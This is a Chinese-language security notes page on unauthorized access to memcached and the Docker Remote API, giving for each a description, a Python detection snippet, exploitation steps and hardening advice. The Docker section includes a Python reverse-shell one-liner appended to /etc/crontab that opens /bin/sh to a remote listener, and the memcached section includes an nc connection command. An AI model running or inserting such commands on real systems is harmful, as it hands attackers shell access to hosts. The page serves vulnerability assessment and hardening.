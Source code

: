 ### memcache未授权访问
#### 漏洞描述
memcached是一套常用的key-value缓存系统，其本身并没有权限控制模块，因此攻击者通过命令交互可直接读取memcached中的敏感信息。

#### 漏洞检测
```bash
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send("stats")
result = s.recv(1024)
if "STAT version" in result:
    print "exist vul"
```
#### 漏洞利用
```bash
nc -vv <target> 11211
```
说明：连接成功，则可获取memcached中的敏感信息。

#### 漏洞修复
1、设置memchached只允许本地访问
2、禁止外网访问Memcached 11211端口
3、编译时加上–enable-sasl，启用SASL认证

### Docker未授权访问
#### 漏洞描述
Docker Remote API是一个取代远程命令行界面（rcli）的REST API。通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。
#### 漏洞检测
```bash
conn = httplib.HTTPConnection(ip, port, True, TIMEOUT)
conn.request("GET", '/containers/json')
resp = conn.getresponse()
if resp.status == 200 and "HostConfig" in resp.read():
    print "exist vul"
```
#### 漏洞利用
获取所有images
```bash
http://host:2375/containers/json
```
getshell的方式与redis利用差不多。

##### 利用计划任务反弹shell
```bash
echo -e "*/1 * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" >> /etc/crontab
```

#### 漏洞修复
1、在不必需的情况下，不要启用docker的remote api服务，如果必须使用的话，可以采用如下的加固方式：
设置ACL，仅允许信任的来源IP连接；
设置TLS认证，官方的文档为Protect the Docker daemon socket
2、客户端连接时需要设置以下环境变量export DOCKER_TLS_VERIFY=1
```bash
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```
3、在 docker api 服务器前面加一个代理，例如 nginx，设置 401 认证
